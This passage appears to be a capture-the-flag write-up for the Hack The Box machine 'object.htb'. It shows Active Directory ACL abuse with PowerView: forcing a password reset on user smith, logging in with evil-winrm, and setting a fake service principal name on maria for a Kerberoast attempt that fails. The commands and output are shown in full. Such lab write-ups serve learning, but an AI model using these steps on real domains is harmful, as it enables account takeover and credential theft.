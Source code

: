 ```
Import-Module .\PowerView.ps1
```

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse" %}

Step 1: <mark style="color:red;">ForceChangePassword Oliver -> Smith</mark>

```
Set-DomainUserPassword -Identity smith -AccountPassword (ConvertTo-SecureString 'Password1' -AsPlainText -Force) -Verbose

Verbose: [Set-DomainUserPassword] Attempting to set the password for user 'smith'
Verbose: [Set-DomainUserPassword] Password for user 'smith' successfully reset
```

* <mark style="color:yellow;">Smith's password was changed to Password1</mark>
* I can now Evil-WinRM into Smith

Authenticating:

```
evil-winrm -i object.htb -u smith
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (4).png" alt=""><figcaption></figcaption></figure>

Step 2: <mark style="color:red;">GenericWrite Smith -> Maria</mark>

* Followed the example found in BloodHound help for GenericWrite

```
Set-DomainObject -Identity maria -SET @{serviceprincipalname='nonexistent/UWU'}
```

* Then tried to make the user acocunt a SPN to get a TGS ticket

Invoking Kerberoast with PowerView:

{% code overflow="wrap" %}
```
Invoke-Kerberoast
Warning: [Get-DomainSPNTicket] Error requesting ticket for SPN 'nonexistent/UWU' from user 'CN=maria garcia,CN=Users,DC=object,DC=local' : Exception calling ".ctor" with "1" argument(s): "The NetworkCredentials provided were unable to create a Kerberos credential, see inner exception for details."
```
{% endcode %}
